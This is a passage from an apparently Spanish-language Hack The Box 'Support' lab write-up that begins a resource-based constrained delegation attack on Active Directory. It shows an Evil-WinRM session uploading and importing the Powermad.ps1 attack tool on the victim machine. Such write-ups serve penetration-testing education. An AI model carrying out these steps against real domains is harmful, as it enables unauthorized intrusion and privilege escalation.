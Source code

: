 ![RBCD](./7.png)

Como siempre en [HackTricks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html), tenemos un artículo explicándonos el ataque. Primero nos descargaremos [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1) y se lo pasamos a la máquina víctima:

```bash wrap=false
*Evil-WinRM* PS C:\Users\support\Documents> upload ./exploits/Powermad.ps1
                                        
Info: Uploading /home/zelpro/HTB/Support/exploits/Powermad.ps1 to C:\Users\support\Documents\Powermad.ps1
                                        
Data: 180768 bytes of 180768 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\Powermad.ps1
```
